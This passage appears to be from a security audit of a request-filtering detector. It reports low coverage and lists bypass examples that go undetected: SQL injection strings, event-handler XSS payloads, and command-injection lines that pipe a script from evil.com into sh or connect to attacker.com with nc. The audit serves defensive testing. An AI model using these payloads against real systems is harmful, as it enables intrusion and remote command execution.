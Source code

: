 **Bypass Examples**:
```sql
-- Not detected:
SELECT * FROM users WHERE id = 1 OR 1=1
SELECT * FROM users WHERE id = 1' OR '1'='1
SELECT * FROM users WHERE id = 1 UNION ALL SELECT ...
admin' AND 1=0 UNION ALL SELECT ...
' WAITFOR DELAY '00:00:05'--
```

### XSS Detection

**Current Coverage**: 10%
- Only detects `<script>` and basic handlers
- Misses modern XSS vectors

**Bypass Examples**:
```html
<!-- Not detected: -->
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<input onfocus=alert(1) autofocus>
<details open ontoggle=alert(1)>
<video><source onerror="alert(1)">
```

### Command Injection

**Current Coverage**: 2%
- Only 4 commands in detection list
- No OS-specific detection

**Bypass Examples**:
```bash
# Not detected:
; curl evil.com/shell.sh | sh
&& python -c "import os; os.system('id')"
| nc attacker.com 4444
$(whoami)
`id`
```

## Security Architecture Issues

### 1. **No Threat Intelligence Integration**
- No updates to threat patterns
- No learning from new attacks
- Static pattern set

### 2. **No Contextual Analysis**
- Can't distinguish code examples from actual threats
- No understanding of data types (SQL in a SQL field vs elsewhere)
- No request context consideration
